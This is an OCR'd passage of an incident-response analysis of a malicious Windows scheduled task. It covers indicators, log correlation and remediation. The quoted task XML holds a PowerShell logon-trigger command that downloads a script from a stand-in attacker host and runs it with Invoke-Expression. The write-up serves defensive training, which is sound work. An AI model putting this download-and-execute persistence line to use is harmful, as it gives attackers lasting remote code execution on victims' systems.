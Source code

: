 
</RegistrationInfo>
<Triggers>
<LogonTrigger>
<Enabled>true</Enabled>
</LogonTrigger>
</Triggers>
<Actions>
<Exec>
<Command>powershell.exe</Command>
<Arguments>-c "Invoke-WebRequest -Uri http://malicioussite.com/payload.ps1 -
OutFile C:\Temp\payload.ps1; Invoke-Expression -Command
C:\Temp\payload.ps1 "</Arguments>
</Exec>
</Actions>
</Task>
- Network Information:
Client Address: 192.168.30.70
Client Port: 50123
Timestamp: 2024-12-07 15:30:00
Step 2: Analysis
1.	Indicators of Compromise
Suspicious Task Name: The task CriticalUpdateTask appears legitimate but is not
part of regular operations.
 

•	Malicious Payload: The Action field shows a PowerShell command downloading a
script from an external domain (http://malicioussite.com).
•	User Account: The account MaliciousAdmin was used, suggesting compromised
credentials.
•	Network Location: The activity originated from 192.168.30.70, which needs further
investigation.
2.	Correlation of Logs
•	Event ID 4698: Scheduled task creation with malicious intent.
•	Event ID 4104 (PowerShell): Check for signs of PowerShell execution on the
system.
•	Event ID 4624 (Logon): Correlate logon events to identify if MaliciousAdmin was
used in unauthorised sessions.
3.	Attack Objective
•	Persistence: Scheduled tasks are commonly used by attackers to maintain access.
•	Payload Execution: The task ensures the malicious script is downloaded and
executed whenever a user logs on.
Step 3: Recommendations
1.	Immediate Actions
•	Quarantine the Source System: Isolate 192.168.30.70 to prevent further activity.
•	Remove the Task: Delete the CriticalUpdateTask scheduled task from the system.
•	Check Active Tasks: Audit all scheduled tasks for unauthorised entries.
2.	Forensic Investigation
•	Analyse the Payload: Retrieve and sandbox the script
from http://malicioussite.com.
•	Inspect User Activity: Review MaliciousAdmin account activity for signs of
compromise.
Check for Network Traffic: Look for outbound connections
to malicioussite.com and block them.
 